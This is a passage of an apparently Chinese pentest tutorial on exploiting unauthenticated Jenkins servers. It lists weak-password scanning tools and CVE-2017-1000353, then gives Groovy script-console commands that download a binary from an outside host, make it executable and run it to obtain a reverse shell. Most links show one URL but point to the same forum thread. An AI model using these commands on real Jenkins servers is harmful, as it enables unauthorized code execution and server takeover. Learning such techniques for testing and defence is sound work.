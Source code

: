 # 0×02 Jenkins未授权访问

  
1.扫描探测

弱口令扫描:[https://github.com/blackye/Jenkins](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef) 或者 [https://github.com/blackye/Jenkins](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

From: [https://www.secpulse.com/archives/2166.html](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

CVE-2017-1000353:[https://blogs.securiteam.com/index.php/archives/3171](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

提示: script/manage 是管理页面

![](/assets/wsq1.png)



## 2. 攻击利用

2.1 反弹shell

```
println "wget http://192.168.3.131:8081/exp -P /tmp/".execute().text
println "chmod +x /tmp/exp".execute().text
println "/tmp/exp".execute().text

```

或者直接通过 Terminal+Plugin

[https://wiki.jenkins.io/display/JENKINS/Terminal+Plugin](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

